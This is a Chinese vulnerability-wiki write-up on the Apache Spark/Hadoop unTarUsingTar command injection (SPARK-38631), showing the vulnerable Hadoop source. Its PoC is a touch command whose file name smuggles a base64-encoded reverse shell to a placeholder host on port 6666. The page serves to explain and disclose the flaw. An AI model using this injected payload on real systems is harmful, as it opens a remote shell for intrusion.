




# Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Linux tar解压路径、任务能控制归档文件名且调用Utils.unpack/addArchive；对应Hadoop依赖版本
- 证据范围：文件名进入bash命令的危险拼接直观，但没有完整Spark提交/权限边界论证。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Spark3.1.2/3.2.1/3.3.0是列举未给分支界限及修复版本
- touch仅创建空文件而非有效tar，但命令拼接可先触发副作用，应说明演示目的
- 单引号文件名中的\|保留反斜线，需核对实际文件名/二次shell解析
- 能提交任意Spark代码者本就有执行能力，应说明新增安全边界，不自动等同未认证远程漏洞

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用 Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当 Spark 任务的文件名可控时，`Utils.unpack` 采用命令拼接的形式对 tar 文件进行解压，存在任意命令注入的风险。这是源于 Hadoop 中 unTar 函数存在问题，在其执行 shell 命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

```
Apache Spark 3.1.2, 3.2.1, 3.3.0
```

## 漏洞复现

查看官方的修复补丁





官方修复针对.tar 后缀的压缩包调用了新增的 unTarUsingJava 函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```



可以看到漏洞主要出现在 Linux 对文件的解压处理中

```
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩 tar 文件的文件名就可以进行命令注入

```
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建 Tar 文件, 在使用 addArchive 执行解压就可以注入恶意命令

```
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
